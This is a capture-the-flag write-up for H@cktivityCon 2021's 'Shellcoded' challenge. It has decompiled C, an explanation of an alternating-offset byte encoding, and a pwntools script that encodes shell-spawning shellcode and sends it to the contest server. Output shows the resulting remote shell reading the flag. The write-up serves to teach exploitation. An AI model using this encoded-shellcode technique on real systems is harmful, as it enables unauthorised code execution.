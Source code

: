 # H@cktivityCon 2021 CTF

## Shellcoded


> Give me your shellcode. I promise I'll run it! 
> 
> 379
> 
> [`shellcoded`](shellcoded)
>
> author: @M_alpha#3534

Tags: _pwn_ _shellcode_ _x86-64_ _remote-shell_


## Summary

Basic shellcode runner with a coder/decoder.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No canary, so there's BOF, but this is really a shellcoding challenge, no need to exploit any missing mitigations since they just run your shellcode for you.  See below.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  char cVar1;
  int iVar2;
  code *__buf;
  ssize_t sVar3;
  uint local_20;
  
  __buf = (code *)aligned_alloc(PAGE_SIZE,PAGE_SIZE);
  if (__buf == (code *)0x0) {
    fwrite("Failed to allocate memory.\n",1,0x1b,stderr);
    exit(1);
  }
  puts("Enter your shellcode.");
  sVar3 = read(0,__buf,PAGE_SIZE);
  if (-1 < sVar3) {
    for (local_20 = 0; (int)local_20 < sVar3; local_20 = local_20 + 1) {
      if ((local_20 & 1) == 0) {
        cVar1 = '\x01';
      }
      else {
        cVar1 = -1;
      }
      __buf[(int)local_20] = (code)((char)__buf[(int)local_20] + (char)local_20 * cVar1);
    }
    iVar2 = mprotect(__buf,PAGE_SIZE,5);
    if (iVar2 != 0) {
      free(__buf);
      fwrite("Failed to set memory permissions.\n",1,0x22,stderr);
      exit(1);
    }
    (*__buf)();
  }
  free(__buf);
  return 0;
}
```

`(*__buf)();` just runs your shellcode, however, the `for` loop above it will _decode_ your shellcode first, so you'll need to submit a _coded_ payload.

The logic is pretty basic: `decoded[i] = coded[i] +/- i`.  The plus or minus depends on if `i` is even (`(local_20 & 1) == 0`) or odd.  To create a coded version, just solve for `coded[i]`, IOW, `coded[i] = decoded[i] -/+ i` (notice how I swapped the `+/-`).

> This algorithm is symmetric, so a basic attack would be to just submit your shellcode and extract from GDB the _coded_ version and then use that for the actual challenge.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./shellcoded')

if args.REMOTE:
    p = remote('challenge.ctf.games', 31416)
else:
    p = process(binary.path)

shellcode = asm(shellcraft.sh())
shellcoded = [ x & 0xff for x in [ shellcode[i] + i if i & 1 else shellcode[i] - i for i in range(len(shellcode)) ]]

p.sendlineafter(b'shellcode.\n',bytearray(shellcoded))
p.interactive()
```

pwntools provided the shellcode, so no need to track that down, then for each byte, if the byte offset within the array is odd (`if i & 1`), then add `i`, else subtract.  

> The `& 0xff` is required since Python integer math is not signed 8-bit like the C source above (see the `(char)` casts above).

> The `shellcoded = [...` is python list comprehension, if the syntax is foreign to you.
> 

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/hacktivityctf2021/shellcoded/shellcoded'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.ctf.games on port 31416: Done
[*] Switching to interactive mode
$ cat flag.txt
flag{f27646ae277113d24c73dbc66a816721}
```
